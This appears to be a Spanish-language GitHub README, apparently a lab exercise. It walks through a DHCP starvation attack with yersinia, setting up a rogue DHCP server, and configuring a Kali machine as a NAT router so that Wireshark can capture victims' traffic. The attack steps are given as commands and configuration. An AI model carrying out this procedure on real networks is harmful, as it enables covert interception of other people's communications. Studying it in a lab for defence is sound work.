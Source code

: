 # Spoofing.kali
Suplantación del servidor DHCP en una red mediante un ataque "starvation" y posterior suplantación para escucha de informacion.

## Configuración red de maquina atacante Kali
Lo primero es configurar nuestra máquina atacante con dos tarjetas de red, una para la red interna en la que hará la suplantación del servicio DHCP y otra que conectará con el internet para proveer de internet a los usuarios engañados y poder escuchar su información, haciendo función de un router normal.<br>
```
    sudo nano -c /etc/network/interfaces
```
```
    ####RED INTERNA####
    auto eth0
    iface eth0 inet static
        address 192.168.1.66
        netmask 255.255.255.0
        dns-nameservers 8.8.8.8, 8.8.4.4

    ####RED EXTERNA####
    auto eht1
    iface eth1 inet static
        address 10.4.33.130
        netmask 255.255.255.0
        gateway 10.33.4.1
```
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/3f313f7e-8bd3-461b-868d-7822a120b7d2) <br>

- **Habilitación de Forwarding persistente** <br>

Ahora debemos configurar nuestra máquina atacante para que pueda hacer un reenvío de paquetes y funcionar como router.
```
    sudo nano -c /sysctl.conf
```
Esta opción viene comentada, con buscarla y descomentarla sirve. Esta es una forma persistente de activar el forwarding.
```
    net.ipv4.ip_forward=1
```
- **Habilitación de nateo persistente** <br>
Por último debemos crear un pequeño script que habilite el nateo cada vez que se arranque el ordenador:
```
    sudo nano -c masquerade.sh
```
```
    #!/bin/bash
    sudo iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
```
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/056aa1ba-51f7-400f-a051-69fa823f0ae6)

Una vez creado el script, podemos hacer que se ejecute con un cron de forma automática:
```
    sudo crontab -e
```
```
    ##Sustituir ruta por la ruta en la que se encuentre el script
    @reboot /home/administrador/masquerade.sh
```
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/bf13804f-180d-43ea-96b0-01b4bc0dcdb9)

- **Reinicio del sistema y comprobación**
Comprobar que tenemos la configuración red correcta, el forwarding activado y el nateo:
  * Reiniciar<br>
      ```
          sudo reboot
      ```
  * IP <br>
  ![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/4aeb46b3-8221-4a30-bd6d-099b877f8b17)
    ```
         ip a
    ```
  * Forwarding <br>
    ```
        cat /proc/sys/net/ipv4/ip_forward
    ```
  * Nateo <br>
    ```
        sudo iptables -nv -t nat -L POSTROUTING
    ```
    ![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/c16142ad-cfeb-4062-91a2-096255fa2907)

## Inicio del ataque starvation
Para el ataque starvation usaremos yersinia, su interfaz gráfica no funciona bien, así que usaremos su consola en fomato visual
```
    sudo apt-get install yersinia
```
```
    sudo yersinia -I
```
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/aa63a0ea-4fdd-402e-a80d-a18b66f6d813) <br>
Debemos usar el modo DHCP, así que pulsamos `Espacio + F2` <br>
        ![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/5fbda515-0010-42c9-a531-e10fea809567) <br>
Ahora abrimos el menú de ataques con `x` y pulsamos el ataque `1` envío de DHCPDISCOVER <br>
        ![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/77e0c585-b8d7-438f-bd21-102a7789da94) <br>
El ataque ya ha sido lanzado, podemos dejarlo en ejecución o bien dejarlo un tiempo prudencial en el que le de tiempo a ocupar todas las IPs y luego apagarlo con `l` (L minúscula) <br>
        ![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/11810f7b-cd3b-4a21-9c0c-6d1adaf3cb76) <br>
Una vez lanzado el ataque y ocupado todas las IPs del servidor DHCP, debemos hacernos pasar nosotros por servidor DHCP. Para ello volvemos al menú con `x` y y elegimos la opción `2` de creación de un servidor DHCP.<br>
        ![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/4dda990d-ef86-47e4-bebd-754511593c7e) <br>
Configuración del servidor DHCP malicioso: <br>
        ![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/5eea8c83-558f-4358-a37c-c8a20a4ff225) <br>

## Escucha de información con Wireshark
Una vez alguien trate de conectarse al router original, no tendrá IPs para otorgarle y entonces nosotros le daremos una IP falsa sin que él se percate, este podrá conectarse a internet con normalidad pero a través de nuestro router no del suyo, lo que nos permite escuchar toda su información.
```
    sudo apt install wireshark
```
```
    sudo wireshark
```
Seleccionamos nuestra tarjeta de red interna y podremos ver todos los paquetes enviados y recividos de la máquina engañada.
![imagen](https://github.com/EndOfBehelit/Spoofing.kali/assets/154753826/105fdbd8-fc46-4c29-979e-32fd90ea8473)



